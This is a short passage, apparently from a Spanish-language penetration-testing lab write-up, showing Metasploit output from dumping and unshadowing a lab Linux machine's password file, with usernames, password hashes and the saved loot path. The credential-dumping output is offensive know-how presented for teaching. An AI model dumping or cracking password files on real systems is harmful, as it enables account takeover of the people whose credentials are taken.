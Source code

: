 ```
[+] vagrant:$6$h7Aa/gDP$/7K4DMVzrrGOeKVgOjDfehnIKQWkR2IxmxopIhllelCXvePQoJWY0HvRXhzNxeQiHJvBn5ZnnvnmFdaIKvMH//:900:900:vagrant,,,:/home/vagrant:/bin/bash
[+] leia_organa:$1$N6DIbGGZ$LpERCRfi8IXlNebhQuYLK/:1111:100::/home/leia_organa:/bin/bash
[+] luke_skywalker:$1$/7D55Ozb$Y/aKb.UNrDS2w7nZVq.Ll/:1112:100::/home/luke_skywalker:/bin/bash
[+] han_solo:$1$6jIF3qTC$7jEXfQsNENuWYeO6cK7m1.:1113:100::/home/han_solo:/bin/bash
[+] artoo_detoo:$1$tfvzyRnv$mawnXAR4GgABt8rtn7Dfv.:1114:100::/home/artoo_detoo:/bin/bash
[+] c_three_pio:$1$lXx7tKuo$xuM4AxkByTUD78BaJdYdG.:1115:100::/home/c_three_pio:/bin/bash
[+] ben_kenobi:$1$5nfRD/bA$y7ZZD0NimJTbX9FtvhHJX1:1116:100::/home/ben_kenobi:/bin/bash
[+] darth_vader:$1$rLuMkR1R$YHumHRxhswnfO7eTUUfHJ.:1117:100::/home/darth_vader:/bin/bash
[+] anakin_skywalker:$1$jlpeszLc$PW4IPiuLTwiSH5YaTlRaB0:1118:100::/home/anakin_skywalker:/bin/bash
[+] jarjar_binks:$1$SNokFi0c$F.SvjZQjYRSuoBuobRWMh1:1119:100::/home/jarjar_binks:/bin/bash
[+] lando_calrissian:$1$Af1ek3xT$nKc8jkJ30gMQWeW/6.ono0:1120:100::/home/lando_calrissian:/bin/bash
[+] boba_fett:$1$TjxlmV4j$k/rG1vb4.pj.z0yFWJ.ZD0:1121:100::/home/boba_fett:/bin/bash
[+] jabba_hutt:$1$9rpNcs3v$//v2ltj5MYhfUOHYVAzjD/:1122:100::/home/jabba_hutt:/bin/bash
[+] greedo:$1$vOU.f3Tj$tsgBZJbBS4JwtchsRUW0a1:1123:100::/home/greedo:/bin/bash
[+] chewbacca:$1$.qt4t8zH$RdKbdafuqc7rYiDXSoQCI.:1124:100::/home/chewbacca:/bin/bash
[+] kylo_ren:$1$rpvxsssI$hOBC/qL92d0GgmD/uSELx.:1125:100::/home/kylo_ren:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20241121054519_default_192.168.16.129_linux.hashes_170490.txt
```

Y ahi obtendriamos todos los hashes.

